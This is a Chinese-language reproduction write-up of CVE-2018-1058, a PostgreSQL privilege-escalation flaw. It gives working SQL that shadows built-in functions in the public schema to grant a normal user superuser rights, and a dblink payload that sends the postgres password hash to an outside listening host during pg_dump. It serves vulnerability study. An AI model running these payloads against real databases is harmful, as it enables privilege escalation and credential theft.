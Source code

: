 # （CVE-2018-1058）PostgreSQL 提权漏洞

## 一、漏洞简介

PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

## 二、漏洞影响

PostgreSQL 9.3-10

## 三、复现过程

### 利用方式

在Postgres的commit记录中，有如下[commit](https://github.com/postgres/postgres/commit/5770172cb0c9df9e6ce27c507b449557e5b45124):

```bash
As special exceptions, the following client applications behave as documented
regardless of search_path settings and schema privileges: clusterdb
createdb createlang createuser dropdb droplang dropuser ecpg (not
programs it generates) initdb oid2name pg_archivecleanup pg_basebackup
pg_config pg_controldata pg_ctl pg_dump pg_dumpall pg_isready
pg_receivewal pg_recvlogical pg_resetwal pg_restore pg_rewind pg_standby
pg_test_fsync pg_test_timing pg_upgrade pg_waldump reindexdb vacuumdb
vacuumlo.  Not included are core client programs that run user-specified
SQL commands, namely psql and pgbench.

```

上面的commit提到了两类的client applications。下文的较为直观的利用方式一是针对第二类client applications（比如psql），然后利用方式二是通过第一类client applications来执行任意代码，相比较下更为隐蔽。

### 利用方式一

在系统schema`pg_catalog`中，定义了大量的函数，用pgAdmin3查看:

![1.png](images/2020_06_13/503fcd1c68d04b06b48a91013056523c.png)

以函数abs系列为例，接受一个类型为bigint\smallint\intger\real\double precision\numeric的参数，返回其绝对值。倘若我们传送一个非数值类型的参数呢，比如text，

```sql
evil=> select abs('chybeta');

```

由于并没有参数类型为text的abs函数，会直接报错：

![2.png](images/2020_06_13/bbed160512d148e09e9e298723d7fdbd.png)

但postgres提供了自定义函数的功能！我们创建如下函数：

```sql
CREATE FUNCTION public.abs(TEXT) RETURNS TEXT AS $
     SELECT 'you are hacked by ' || $1;
$ LANGUAGE SQL IMMUTABLE;

```

当我们再次执行同样的查询语句，根据postgres的设计流程，它会先去查找系统schema`pg_catalog`，但由于参数类型不同没有找到，接着按照`search_path`中的顺序查找，而我们定义的`abs(text)`存在于schema`public`中，参数符合，因此pg理所当然地执行了我们定义的函数:

![3.png](images/2020_06_13/b2e875013dd34d478f9ac3a001e019fc.png)

注意一个点，这个函数是定义在schema`public`中的，也就是说对于进入到这个数据库的任何用户，只要他们调用了abs，且参数为text，都有可能会诱发恶意的代码执行。比如以超级用户postgres执行:

![4.png](images/2020_06_13/9d50ee007065415ab3486dc4d317bdc6.png)

不过有谁会傻乎乎的去运行一个莫名其妙的abs(text)呢？因此真正的攻击手段是将过程隐藏到看似正常的数据库查询中。这次我们选择schema`pg_catalog`中的另外一类函数比如lower(text)，upper(text)，它们分别将text类型的参数转成小写和大写，不过系统没有提供接受varchar参数的lower和upper，尽管可以进行类型转换，但对pg而言，最好的选择当然是参数类型恰好符合的恶意自定义函数。

创建一个表，值的类型为varchar：

```sql
CREATE TABLE public.hahahaha AS SELECT 'CHYBETA'::varchar AS contents;

```

创建对应的恶意函数:

```sql
CREATE FUNCTION public.lower(varchar) RETURNS TEXT AS $
     SELECT 'you are hacked by ' || $1;
$ LANGUAGE SQL IMMUTABLE;

```

对绝大部分用户而言，他们可能看大写的`CHYBETA`不爽，然后执行了lower函数，但在不知道/清楚类型的情况下，他们执行的是public中的恶意自定义函数。

![5.png](images/2020_06_13/89a1a8379ab64bfbac515831877be7e3.png)

只能打印`you are hacked by XXX`有毛用！！由于恶意自定义函数可以被超级用户调用到，因此也就有了相应的执行权限，最简单的比如提权。

先来看看权限情况（以超级用户为例），可以看到只有postgres的rolsuper是t，即true:

![6.png](images/2020_06_13/3e62ac6dc7364ec9a537244cf0cf9abd.png)

在用户chybeta登陆进evil数据库后，他创建了如下`upper函数`:

```sql
CREATE FUNCTION public.upper(varchar) RETURNS TEXT AS $
    ALTER ROLE chybeta SUPERUSER;
    SELECT pg_catalog.upper($1);
$ LANGUAGE SQL VOLATILE;

```

![7.png](images/2020_06_13/0a0f2ae187a74292bb113f21cb338b54.png)

注意这里是`VOLATILE`，具体原因参考 [官方文档:xfunc-volatility](https://www.postgresql.org/docs/8.2/static/xfunc-volatility.html)

另外一张table，小写的chybeta:

```
CREATE TABLE public.hehehehe AS SELECT 'chybeta'::varchar AS contents;

```

管理员一看，心中不爽：小写小写就知道小写，然后:

![8.png](images/2020_06_13/a559be3119134ecf9ad6563c31578472.png)

看上去一切正常，大写的大写。回到用户chybeta处，查看一下权限:

![9.png](images/2020_06_13/d7ddff1c057a47c7b1d3311a25f2c604.png)

已经成为超级用户。

利用方法有很多，理论上只要能创建恶意函数，管理员调用，就是以管理员身份去执行恶意sql语句/代码。在这种情况中，如commit所说`Not included are core client programs that run user-specified SQL commands, namely psql and pgbench.`，被攻击用户是知道自己执行的sql语句，只是其中的某个function意义被掉包了。

### 利用方式二

安装完PostgreSQL后还会有一系列的工具，比如pg_dump、pg_dumpall等等。基于利用方式一，在创建了恶意函数的基础之上，可以通过这些工具来执行恶意函数。这些工具在执行过程中会动态设定`search_path`，导致`public`的优先级比`pg_catalog`高，也就是说即使是在相同类型相同参数相同函数名的情况下，会选择`public`中的函数。相比第一种而言隐蔽性更强，同时有更高的可触发性。

为利用pg_dump中的sql语句，可以利用log来观察执行过程。在superuser的权限下`show log_directory;`找到log目录，将目录下postgresql.conf中的约莫455行改为`log_statement = all`。重启PostgreSQL后，使用pg_dump工具执行备份命令:

```
pg_dump -U postgres -f evil.bak evil

```

同时观察log输出，查找`statement: SET search_path =`，最后在某处我发现了一段这样的log:
![10.png](images/2020_06_13/14519c8bbe944c9e9b8c9209bff8abb8.png)

可以看到在这段log中，有一处的`array_to_string`是没有指定schema的。在系统schema中它的定义如下：

![11.png](images/2020_06_13/ffd8cc383548484b9cbeb2ac27e5bef8.png)

在这里由于已经设定了`search_path`，为了能直接适配，这里创建的恶意函数的参数个数和类型都必须和`pg_catalog`中定义的相同，倘若不同则会按顺序匹配到正确的函数。

因为pg_dump在运行过程中开启的是`read only transaction`，根据[官方文档](https://www.postgresql.org/docs/9.1/static/sql-set-transaction.html)：

```bahs
The transaction access mode determines whether the transaction is read/write or read-only. Read/write is the default. When a transaction is read-only, the following SQL commands are disallowed: INSERT, UPDATE, DELETE, and COPY FROM if the table they would write to is not a temporary table; all CREATE, ALTER, and DROP commands; COMMENT, GRANT, REVOKE, TRUNCATE; and EXPLAIN ANALYZE and EXECUTE if the command they would execute is among those listed. This is a high-level notion of read-only that does not prevent all writes to disk.

```

是不允许执行下类操作的:

1. INSERT, UPDATE, DELETE, COPY FROM
2. all CREATE, ALTER, and DROP commands
3. COMMENT, GRANT, REVOKE, TRUNCATE; and EXPLAIN ANALYZE and EXECUTE if the command they would execute is among those listed

不过并没有禁止`select`语句。如果开启了dblink，则可以利用查询来带出数据，比如用dblink_connect。因此我们创建这样的一个恶意函数：

```sql
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $
    select dblink_connect((select 'hostaddr=192.168.248.132 port=12345 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$ LANGUAGE SQL VOLATILE;

```

远程vps上监听：

```
nc -lvv 12345

```

当管理员进行数据库备份时：

```
pg_dump -U postgres -f evil.bak evil

```

![12.png](images/2020_06_13/a85d4c315e1a40038d36dac7d3bddfbf.png)

即可得到管理员密码：

![13.png](images/2020_06_13/e4fafe12a9e74153bcc77a3a35985ed0.png)

## 参考链接

> https://xz.aliyun.com/t/2109#toc-1

